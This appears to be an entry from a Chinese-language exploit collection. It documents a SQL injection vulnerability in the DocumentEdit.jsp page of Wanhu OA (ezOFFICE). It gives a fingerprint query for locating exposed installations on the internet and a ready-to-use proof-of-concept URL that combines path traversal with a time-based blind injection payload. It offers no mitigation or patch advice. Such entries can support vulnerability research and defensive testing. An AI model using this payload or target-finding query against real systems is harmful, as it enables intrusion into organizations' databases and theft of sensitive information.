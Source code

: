 # 万户OA DocumentEdit.jsp SQL注入漏洞

## 漏洞描述

万户OA DocumentEdit.jsp文件存在SQL注入漏洞，攻击者通过发送特殊的请求包可以对数据库进行SQL注入，获取服务器敏感信息

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![1](./images/202209131047757.png)

验证POC

```
/defaultroot/iWebOfficeSign/OfficeServer.jsp/../../public/iSignatureHTML.jsp/DocumentEdit.jsp?DocumentID=1';WAITFOR%20DELAY%20'0:0:5'--
```

![1662358602569-71e26a34-726b-4d75-b683-225884ec7b4a](./images/202209131047397.png)

![3](./images/202209131047713.png)